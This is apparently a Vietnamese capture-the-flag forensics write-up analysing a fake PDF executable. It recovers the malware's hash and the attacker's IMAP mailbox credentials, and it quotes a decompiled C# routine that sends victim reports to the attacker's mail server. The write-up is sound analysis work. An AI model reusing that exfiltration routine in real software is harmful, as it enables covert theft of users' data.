 ![image](https://github.com/user-attachments/assets/b596a8bf-2f0a-4ef9-a61b-a850e7a674d9)

Unzip nhận được 1 file Eldoria_Balance_Issue_Report.pdf.exe

Giờ đi tìm md5 thôi, mình sử dụng Virustotal

![image](https://github.com/user-attachments/assets/2df956ab-8963-4b4c-a4b4-717135f5f403)

```
Answer: c0b37994963cc0aadd6e78a256c51547
```

>4. What credentials were used to log into the attacker's mailbox? (Format: username:password)

Lúc mới vào làm, thì mình thấy có khá nhiều packet, nên có hỏi AI xem cần chú ý vào những protocol nào thì có được chỉ rằng là IMAP

Thử lọc IMAP thì có đc luôn username và password

![image](https://github.com/user-attachments/assets/1d586b09-1b7e-4e2e-b9a4-38908ecbdeff)

Còn nếu làm bản chất thì phải rev con malware kia, dùng die để xác định thư viện

![image](https://github.com/user-attachments/assets/9cdca5ac-0edb-46a6-812d-484aeb3814bc)

.Net thì dùng dotpeek hoặc ilspy để decomplie, mình dùng dotpeek

![image](https://github.com/user-attachments/assets/27364a2e-ed4f-4758-8a0e-7791a2c2b5f1)

Chương trình trên sử dụng C# để kết nối đến IMAP server sử dụng giao thức TCP và SSL/TLS

Nhìn vào hàm creds, đây là hàm lưu thông tin đăng nhập để có thể xác thực với máy chủ email mail.korptech.net

```
Answer: proplayer@email.com:completed
```
>5. What is the name of the task scheduled by the attacker?

Khi làm thì mình cần tìm câu trả lời càng sớm càng tốt, nên đã kiểu đoán mò khá nhiều, mình đã follow hết các stream liên quan đến IMAP nhưng kh thấy có task scheduled nào của attacker, nên mình nghĩ khả năng rất cao là nó nằm trong đống bị mã hóa này

![image](https://github.com/user-attachments/assets/35f1b6a7-933d-4a3f-a2d0-9d576a5f5eba)


Từ đây mình sẽ đi vào phân tích đoạn code C#, chú ý đến các hàm sau

```C#
private static void create(string text)
    {
      text = "From: " + Environment.UserName + "\r\nSubject: " + DateTime.UtcNow.ToString() + "_report_" + Program.comp_id + "\r\n\r\n" + text;
      byte[] bytes = Encoding.ASCII.GetBytes("$ APPEND Inbox {" + text.Length.ToString() + "}\r\n" + text + "\r\n");
      Task.Factory.FromAsync<byte[], int, int>(new Func<byte[], int, int, AsyncCallback, object, IAsyncResult>(((Stream) Program.ssl).BeginWrite), new Action<IAsyncResult>(((Stream) Program.ssl).EndWrite), bytes, 0, bytes.Length, (object) Program.ssl);
    }
```
